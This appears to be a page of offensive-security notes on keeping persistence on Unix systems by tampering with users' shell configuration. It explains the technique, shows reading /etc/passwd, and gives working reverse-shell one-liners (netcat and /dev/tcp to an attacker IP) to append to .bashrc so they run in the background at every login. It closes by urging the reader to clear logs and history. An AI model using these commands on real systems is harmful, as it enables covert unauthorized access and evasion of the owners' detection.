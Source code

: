--- ---

<h2>General</h2>
In Unix-like operating systems, the shell is the command-line interface that users can use to interact with the system. When a user logs in, their default shell is started and they are presented with a prompt where they can enter commands. Each user on the system has a default shell that is specified in the system's configuration, and the user can choose to use a different shell if they prefer.

An attacker who has gained access to a system can modify the shell configuration of a user in order to maintain persistence on the system. This can be done by changing the user's default shell to a shell that has been modified by the attacker in some way. For example, the attacker could modify the shell so that it automatically runs a script or command every time the user logs in, or so that it hides the presence of the attacker's files or processes on the system.

By modifying the shell configuration in this way, the attacker can maintain persistence on the system even after a reboot or after they have logged out. This can allow the attacker to continue to perform actions or gather sensitive data over an extended period of time without being detected.

---

<h2>Commands</h2>
Find the Default Shell of users
```
cat etc/passwd    ---> check for /bin/bash 
```
If users has something else then bin/bash (ex: bin/sh) That mean the user will have a /.bashrc in the home folder of the user (bashrc allow you to modify the bash shell at its launch)

Add Reverse Shell
```
# Edit the code
nano .bashrc

# Add a bash reverse shell at the end of the code
nc -e /bin/bash Attacker_IP PORT 2>/dev/null &
or
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1 &
```
- & Put the command in background



===Dont Forget to Clear Tracks (Check [[🧹 CLEAR Logs & History]])===